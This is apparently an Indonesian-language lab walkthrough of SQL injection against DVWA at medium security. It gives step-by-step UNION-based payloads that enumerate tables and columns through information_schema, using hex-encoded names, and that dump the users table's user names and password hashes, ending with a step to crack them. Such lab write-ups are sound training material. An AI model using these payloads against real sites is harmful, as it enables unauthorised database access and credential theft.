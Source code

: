 # SQL Injection DVWA Level Medium

## Langkah - langkah serangan

### Tahap pertama
```sql
# Perintah ini untuk mengecek apakah suatu web memiliki kerentanan SQL Injection.
# Tanda (#) digunakan untuk mengabaikan sisa kueri setelahnya.
AND 1=1#
```

### Tahap Kedua
```sql
# Perintah ini untuk mengecek ada siapa saja user yang terdapat di web DVWA
# Merupakan ekspresi logika yang selalu benar.
# Tanda (#) digunakan untuk mengabaikan sisa kueri setelahnya.
OR 1=1#
```

### Tahap Ketiga
```sql
# Perintah ini digunakan untuk menampilkan ada berapa saja jumlah kolom yang ada
# Tanda (#) digunakan untuk mengabaikan sisa kueri setelahnya.
ORDER BY 3 #
```

### Tahap Keempat
```sql
# Perintah ini digunakan untuk menampilkan nama database yang digunakan serta versi dari database nya
# Tanda (#) digunakan untuk mengabaikan sisa kueri setelahnya.
UNION SELECT VERSION(), DATABASE()#
```

### Tahap Kelima
```sql
# Perintah ini digunakan untuk menampilkan semua nama tabel
# UNION SELECT digunakan untuk menggabungkan hasil dari dua atau lebih pernyataan SELECT 
UNION SELECT 1,table_name FROM information_schema.tables;
```

### Tahap Keenam
```sql
# Perintah ini digunakan untuk menampilkan semua nama tabel yang terdapat di dalam database dvwa(0x64767761)
# UNION SELECT digunakan untuk menggabungkan hasil dari dua atau lebih pernyataan SELECT 
UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema = 0x64767761;
```

### Tahap Ketujuh
```sql
# Perintah ini digunakan untuk menampilkan semua columns yang terdapat di dalam tabel users(0x7573657273)
# UNION SELECT digunakan untuk menggabungkan hasil dari dua atau lebih pernyataan SELECT 
UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = 0x7573657273;
```

### Tahap Kedelapan
```sql
# Perintah ini digunakan untuk menampilkan semua user dan password yang terdapat di dalam tabel users
# UNION SELECT digunakan untuk menggabungkan hasil dari dua atau lebih pernyataan SELECT 
UNION SELECT user , password FROM users;
```

### Tahap Terakhir
```sql
# Lakukan cracking password
```